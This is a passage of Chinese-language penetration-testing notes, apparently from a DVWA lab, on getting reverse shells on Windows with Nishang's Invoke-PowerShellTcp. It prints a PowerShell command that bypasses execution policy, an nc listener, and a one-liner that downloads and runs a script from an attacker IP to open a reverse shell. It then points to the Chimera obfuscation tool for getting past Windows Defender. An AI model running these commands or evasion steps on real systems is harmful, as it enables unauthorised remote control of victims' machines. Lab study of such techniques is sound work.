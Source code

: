 ** 这种方法可以不用换restrit 限制，但是也是最好删除脚本文件上的提示信息，否则会触发windows defenfer 的防御无法正常执行**

## 反弹shell的用法：

#### 本地引用反弹shell 模块

```
powershell –exec bypass –Command "&{Import-Module 'D:\phpstudy\WWW\DVWA\hackable\uploads\nishang-master\shells\Invoke-PowerShellTcp.ps1';Invoke-PowerShellTcp -Reverse -IPAddress 192.168.31.133  -Port 6666}"
```

**kali 上直接 nc -nvlp 6666 就可以 接受到反弹shell**

**这个模块会被windowsdefender 直接拦下来，不论是否删除头部的帮助信息字符串，并且本地文件会被杀软干碎，所以并不实用**

#### 远程下载执行：

**kali 开启监听：**`nc -nvlp 8888`

**windwos:**

```
powershell iex (New-Object net.webclient).DownloadString('http://192.168.31.113/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -reverse -ipaddress 192.168.31.113 -port 8888
```

**会发现被windowsdefender 拦截下来，不论是否删除了 Invoke-PowerShellTcp.ps1 头部的帮助文档字符段**

![image-20240309184454058](./resources/images/5-2.png)

#### 混淆+远程下载执行：

**这里使用的是chimera工具     **

**下载地址**[https://github.com/tokyoneon/Chimera](https://github.com/tokyoneon/Chimera)

**详细用法**[https://github.com/tokyoneon/Chimera/blob/master/USAGE.md](https://github.com/tokyoneon/Chimera/blob/master/USAGE.md)
